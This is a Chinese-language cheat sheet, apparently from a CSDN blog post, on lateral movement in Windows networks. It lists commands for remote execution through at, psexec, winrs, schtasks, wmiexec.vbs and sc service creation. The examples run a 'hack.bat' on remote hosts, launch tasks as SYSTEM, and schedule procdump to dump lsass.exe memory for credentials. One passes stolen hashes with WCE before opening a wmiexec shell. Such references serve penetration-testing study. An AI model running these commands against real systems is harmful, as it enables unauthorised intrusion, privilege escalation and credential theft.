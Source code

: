 https://blog.csdn.net/qq_20307987/article/details/84612699

计划任务
at \192.168.200.100 15:00 c:hack.bat

psexec
psexec针对远程建立连接的认证方式有两种，一种先建立ipc连接，然后直接用psexec 192.168.200.100 cmd命令开启一个半交互式的cmdshell，另一种是在psexec的参数中指定账号密码。
参数：

-s 参数用来以system权限执行

–accepteula 绕过第一次运行的弹窗

-c <[路径]文件名>:拷贝文件到远程机器并运行（注意：运行结束后文件会自动删除）

-d 不等待程序执行完就返回

psexec \192.168.1.2 c:hack.bat

系统自带远程管理 winrs
winrs -r:192.168.1.100 -u:administrator -p:pwd ipconfig

schtasks
schtasks /create /tn mytask /tr F:Desktop.exe /sc minute /mo 1 每分运行1次

/RU 可以以 system 启动，例如

schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM

schtasks /create /tn mytask /tr “C:procdump64.exe -accepteula -ma lsass.exe lsass.dmp” /sc minute /mo 2

schtasks /Query /TN mytask

net time

schtasks /Delete /TN mytask /F

wmiexec
半交互模式：
cscript.exe //nologo wmiexec.vbs /shell 192.168.1.1 username password

单个命令执行的模式：
cscript.exe wmiexec.vbs /cmd 192.168.1.1 username password "command"

如果有时候我们抓取到的是hash，破解不了时可以利用WCE的hash注入，然后再执行WMIEXEC（不提供账号密码）就可以了。
```
cscript.exe //nologo wmiexec.vbs /shell 192.168.1.1  
wce -s [hash] 
cscript.exe //nologo wmiexec.vbs /shell 192.168.1.1
```

sc创建服务运行
1、系统权限(其中test为服务名)
sc \DC1 create test binpath= c:cmd.exe
sc \DC1 start test
sc \DC1 delete test

2.指定用户权限启动
```
sc \DC1 create test binpath = "c:1.exe" obj= "centosoadministrator" passwrod= test
sc \DC1 start test
```
